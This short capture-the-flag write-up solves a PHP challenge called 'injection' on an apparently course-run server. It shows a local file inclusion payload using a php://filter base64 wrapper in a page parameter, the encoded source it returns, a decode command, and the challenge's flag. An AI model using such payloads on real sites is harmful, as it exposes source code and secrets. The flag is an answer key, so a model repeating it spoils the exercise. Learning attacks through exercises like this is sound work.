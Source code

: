 # injection

The solution was to enter this into the URL: `php://filter/convert.base64-encode/resource=flag`
where `http://offsec-chalbroker.osiris.cyber.nyu.edu:1243/index.php?page=flag` becomes `http://offsec-chalbroker.osiris.cyber.nyu.edu:1243/index.php?page=php://filter/convert.base64-encode/resource=flag`

The result is a base64 encoded string of the source code for this page:
`PD9waHAKLy9mbGFne3BocF8xbmNsdWQzXzFzX3MwX3czMXJkXzMyZDQwNDE2NDQxMX0KPz4KVGhlIGZsYWcgaXMganVzdCBhYm92ZSB0aGlzIGxpbmUgKGluIHRoZSBzb3VyY2UgY29kZSBhdCBsZWFzdCkh`

And when decoded...
`echo "PD9waHAKLy9mbGFne3BocF8xbmNsdWQzXzFzX3MwX3czMXJkXzMyZDQwNDE2NDQxMX0KPz4KVGhlIGZsYWcgaXMganVzdCBhYm92ZSB0aGlzIGxpbmUgKGluIHRoZSBzb3VyY2UgY29kZSBhdCBsZWFzdCkh" | base64 -D`

Gives us the flag:

`<?php
//flag{php_1nclud3_1s_s0_w31rd_32d404164411}
?>
The flag is just above this line (in the source code at least)!`
